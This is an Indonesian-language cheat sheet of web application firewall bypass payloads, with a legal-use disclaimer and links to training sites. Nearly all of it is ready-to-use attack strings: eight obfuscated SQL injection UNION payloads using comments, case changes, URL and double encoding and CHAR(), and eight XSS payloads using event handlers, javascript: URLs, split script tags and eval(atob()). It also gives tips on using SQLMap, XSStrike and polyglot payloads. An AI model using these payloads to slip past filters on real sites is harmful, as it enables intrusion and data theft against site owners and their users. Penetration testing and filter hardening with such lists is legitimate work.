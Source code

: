 # SQL Injection WAF Bypass

# Disclaimer

Semua contoh berikut hanya untuk tujuan pembelajaran dan pengujian keamanan yang sah. Dilarang keras digunakan untuk aktivitas ilegal.

## Tujuan
Melewati filter WAF yang memblokir payload SQL standar.

## Contoh Payload Bypass

1. Obfuscation menggunakan komentar  
   `'/**/UNION/**/SELECT/**/1,2,3--+`

2. Case Variation  
   `' UnIoN SeLeCt 1,2,3--+`

3. URL Encoding  
   `%27%20union%20select%201,2,3--+`

4. Double Encoding  
   `%2527%2520union%2520select%25201,2,3--+`

5. String Concatenation  
   `' UNION SELECT 1,CONCAT('us','er'),3--+`

6. Menggunakan CHAR() Function  
   `' UNION SELECT 1,CHAR(117,115,101,114),3--+`

7. Tanpa Spasi (gunakan Tab atau Komentar)  
   `'union/**/select/**/1,2,3--+`

8. Komentar Inline antar Keyword  
   `'/**/UN/**/ION/**/SE/**/LECT/**/1,2,3--+`

# XSS WAF Bypass

## Tujuan
Melewati filter WAF yang memblokir tag `<script>` dan event handler seperti `onerror`, `onclick`.

## Contoh Payload Bypass

1. `<img>` Injection  
   `<img src=x onerror=alert(1)>`

2. Hex Encoding  
   `<svg/onload=&#x61;&#x6C;&#x65;&#x72;&#x74;(1)>`

3. Event Handler dengan Obfuscation  
   `<iframe src="javascript:alert('XSS')">`

4. Menggunakan `srcdoc` dalam `<iframe>`  
   `<iframe srcdoc="<script>alert(1)</script>">`

5. Tag `<script>` yang dipecah  
   `<scr<script>ipt>alert(1)</script>`

6. Base64 JavaScript Execution (dengan eval)  
   `<script>eval(atob("YWxlcnQoMSk="))</script>`

7. MathML (khusus Firefox)  
   `<math><mtext></mtext><script>alert(1)</script></math>`

8. Bypass dengan `<details>`  
   `<details open ontoggle=alert(1)>`

# Tips Menghadapi WAF

Uji filter karakter dengan input acak  
Gunakan tool seperti Burp Suite, SQLMap, atau XSStrike untuk eksplorasi payload lebih kompleks  
Coba pendekatan polyglot: payload yang valid di banyak konteks sekaligus

# Referensi Legal

https://portswigger.net/web-security/sql-injection/union-attacks  
https://exploit.linuxsec.org/tutorial-sql-injection-manual/  
https://exploit.linuxsec.org/payload-dump-one-shot-sql-injection/  
https://www.securityidiots.com/Web-Pentest/SQL-Injection/Dump-in-One-Shot-part-1.html  
https://portswigger.net/web-security  
https://owasp.org/www-project-juice-shop  
https://tryhackme.com  
https://www.hackthebox.com
